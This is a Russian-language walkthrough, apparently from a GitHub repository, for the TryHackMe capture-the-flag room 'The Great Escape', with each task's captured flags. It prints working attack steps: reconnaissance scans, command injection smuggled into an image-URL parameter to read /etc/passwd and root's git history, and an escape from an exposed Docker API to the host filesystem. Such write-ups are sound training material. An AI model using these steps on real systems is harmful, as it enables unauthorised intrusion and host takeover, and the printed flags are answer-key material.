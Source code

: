 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [The Great Escape](https://tryhackme.com/r/room/thegreatescape) 

Всего 4 задания:
## Задание 1
Если вы застряли на этапе Docker Breakout этого испытания, воспользуйтесь комнатой « Docker Rodeo », чтобы узнать о 
широком спектре уязвимостей Docker.

### Ответьте на вопросы ниже
Развертывание виртуальной машины
```commandline
Ответ не нужен
```

## Задание 2
Начните с простого веб-приложения. Сможете ли вы найти скрытый флаг?
### Ответьте на вопросы ниже
Найдите флаг, спрятанный в веб-приложении
```commandline
nmap -sSCV -p- <IP>
gobuster dir -f -u http://<IP> -w /usr/share/wordlists/dirb/big.txt
curl http://<IP>/.well-known/security.txt
curl -I http://<IP>//api/fl46
```
```commandline
THM{b801135794bf1ed3a2aafaa44c2e5ad4}
```

## Задание 3
На одной из машин есть скрытый root-ом флаг. Сможете его найти?

### Ответьте на вопросы ниже
Нашли корневой флаг?
```commandline
curl http://<IP>/robots.txt
http://<IP>/exif-util

http://<IP>/api/exif?url=http://api-dev-backup:8080
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;cat /etc/passwd
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;ls ~
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;cat ~/dev-note.txt
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;ls -la /root
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;git -C /root log
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;git -C /root show a3d30a7d0510dc6565ff9316e3fb84434916dee8
```
```commandline
THM{0cb4b947043cb5c0486a454b75a10876}
```

## Задание 4
Вы думали, что у вас есть root. Но root в контейнере docker не так уж и полезен. Найдите секретный флаг
### Ответьте на вопросы ниже
Найдите настоящий корневой флаг
```commandline
cd /opt
sudo git clone https://github.com/grongor/knock.git
cd knock
./knock <IP> 42 1337 10420 6969 63000
nmap <IP> -p 2375
sudo nano /etc/docker/daemon.json
sudo systemctl stop docker
sudo systemctl start docker
docker -H <IP>:2375 images
docker -H <IP>:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt sh
cat /etc/passwd
exit
docker -H <IP>:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt bash
cd /root
ls
cat flag.txt
```
```commandline
THM{c62517c0cad93ac93a92b1315a32d734}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)